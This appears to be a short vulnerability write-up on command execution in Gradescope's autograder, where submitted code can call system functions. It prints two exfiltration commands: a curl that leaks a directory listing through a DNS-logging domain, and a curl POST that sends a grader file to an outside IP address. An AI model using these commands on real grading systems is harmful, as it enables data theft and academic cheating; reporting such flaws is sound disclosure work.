



# Grade-scope code execution 

​	

## How to exploit

User can upload own code and autograder of gradescopt can grade it like online judge. But the program doesn't filter out some dangerous functions, like system. So, users can execute any commends they want. 

First if I add this code to my code


```
curl `ls`.mgvjns.dnslog.cn
```

I  can get a filename from dns log



Next if I add another commend to my code



```
curl -X POST -F xx=@zeroMarkshowGrid.txt http://129.226.162.60:2333/
```

Then I can read from my VPS and know the content of this file.



